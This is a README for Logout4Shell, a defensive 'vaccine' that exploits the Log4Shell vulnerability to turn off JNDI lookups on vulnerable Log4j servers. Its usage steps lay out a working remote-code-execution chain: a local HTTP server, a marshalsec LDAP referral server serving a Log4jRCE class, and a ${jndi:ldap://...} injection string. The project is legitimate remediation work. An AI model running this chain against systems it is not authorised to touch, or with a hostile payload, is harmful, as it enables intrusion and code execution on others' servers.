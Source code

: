 # Logout4Shell
![logo](https://github.com/Cybereason/Logout4Shell/raw/main/assets/CR_logo.png)

## Description 

A vulnerability impacting Apache Log4j versions 2.0 through 2.14.1 was disclosed on the project’s Github on December 9, 2021. 
The flaw has been dubbed “Log4Shell,”, and has the highest possible severity rating of 10. Software made or
managed by the Apache Software Foundation (From here on just "Apache") is pervasive and comprises nearly a third of all
web servers in the world—making this a potentially catastrophic flaw.
The Log4Shell vulnerability CVE-2021-44228 was published on 12/9/2021 and allows remote code execution on vulnerable servers.


While the best mitigation against these vulnerabilities is to patch log4j to
~~2.15.0~~2.16.0 and above, in Log4j version (>=2.10) this behavior can be partially mitigated (see below) by
setting system property `log4j2.formatMsgNoLookups` to `true` or by removing
the JndiLookup class from the classpath. 

On 12/14/2021 the Apache software foundation disclosed CVE-2021-45046 which was patched in log4j version 2.16.0. This
vulnerability showed that in certain scenarios, for example, where attackers can control a thread-context variable that
gets logged, even the flag `log4j2.formatMsgNoLookups` is insufficient to mitigate log4shell.

However, enabling these system property requires access to the vulnerable servers as well as a restart. 
The [Cybereason](https://www.cybereason.com) research team has developed the
following code that _exploits_ the same vulnerability and the payload therein
sets the vulnerable setting as disabled. The payload then searches
for all `LoggerContext` and removes the JNDI `Interpolator` preventing even recursive abuses. 
this effectively blocks any further attempt to exploit Log4Shell on this server. 

This Proof of Concept is based on [@tangxiaofeng7](https://github.com/tangxiaofeng7)'s [tangxiaofeng7/apache-log4j-poc](https://github.com/tangxiaofeng7/apache-log4j-poc)

However, this project attempts to fix the vulnerability by using the bug against itself.
You can learn more about Cybereason's "vaccine" approach to the Apache Log4Shell vulnerability (CVE-2021-44228) on our website.

Learn more: [Cybereason Releases Vaccine to Prevent Exploitation of Apache Log4Shell Vulnerability (CVE-2021-44228)](https://www.cybereason.com/blog/cybereason-releases-vaccine-to-prevent-exploitation-of-apache-log4shell-vulnerability-cve-2021-44228)

## Supported versions
Logout4Shell supports log4j version 2.0 - 2.14.1

## How it works
On versions (>= 2.10.0) of log4j that support the configuration `FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS`, this value is
set to `True` disabling the lookup mechanism entirely. As disclosed in CVE-2021-45046, setting this flag is insufficient,
therefore the payload searches all existing `LoggerContexts` and removes the JNDI key from the `Interpolator` used to
process `${}` fields. This means that even other recursive uses of the JNDI mechanisms will fail.
Then, the log4j jarfile will be remade and patched. The patch is included in this
git repository, however it is not needed in the final build because the real patch
is included in the payload as Base64.

In persistence mode (see [below](#transient-vs-persistent-mode)), the payload additionally attempts to locate the `log4j-core.jar`,
remove the `JndILookup` class, and modify the PluginCache to completely remove the JNDI plugin. Upon subsequent JVM
restarts the `JndiLookup` class cannot be found and log4j will not support for JNDI

## Transient vs Persistent mode
This package generates two flavors of the payload - Transient and Persistent. 
In Transient mode, the payload modifies
the current running JVM. The payload is very delicate to just touch the logger context and configuration. We thus
believe the risk of using the Transient mode are very low on production environments.

Persistent mode performs all the changes of the Transient mode and *in addition* searches for the jar from which `log4j`
loads the `JndiLookup` class. It then attempts to modify this jar by removing the `JndiLookup` class as well as
modifying the plugin registry. There is inherently more risk in this approach as if the `log4j-core.jar` becomes
corrupted, the JVM may crash on start.

The choice of which mode to use is selected by the URL given in step [2.3](#execution) below. The
class `Log4jRCETransient` selects the Transient Mode and the class `Log4jRCEPersistent` selects the persistent mode

Persistent mode is based on the work of [TudbuT](https://github.com/TudbuT). Thank you!

## How to use

1. Download this repository and build it 

   1.1 `git clone https://github.com/cybereason/Logout4Shell.git`

   1.2 build it - `mvn package`

   1.3 `cd target/classes`

   1.4 run the webserver - `python3 -m http.server 8888`

2. Download, build and run Marshalsec's ldap server

   2.1 `git clone https://github.com/mbechler/marshalsec.git`

   2.2 `mvn package -DskipTests`

   2.3 <a name="execution"></a>`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<IP_OF_PYTHON_SERVER_FROM_STEP_1>:8888/#Log4jRCE<Transient/Persistent>"`

4. To immunize a server

   3.1 enter `${jndi:ldap://<IP_OF_LDAP_SERVER_FROM_STEP_2>:1389/a}` into a vulnerable field (such as user name)


## DISCLAIMER: 
The code described in this advisory (the “Code”) is provided on an “as is” and
“as available” basis may contain bugs, errors and other defects. You are
advised to safeguard important data and to use caution. By using this Code, you
agree that Cybereason shall have no liability to you for any claims in
connection with the Code. Cybereason disclaims any liability for any direct,
indirect, incidental, punitive, exemplary, special or consequential damages,
even if Cybereason or its related parties are advised of the possibility of
such damages. Cybereason undertakes no duty to update the Code or this
advisory.

## License
The source code for the site is licensed under the MIT license, which you can find in the LICENSE file.
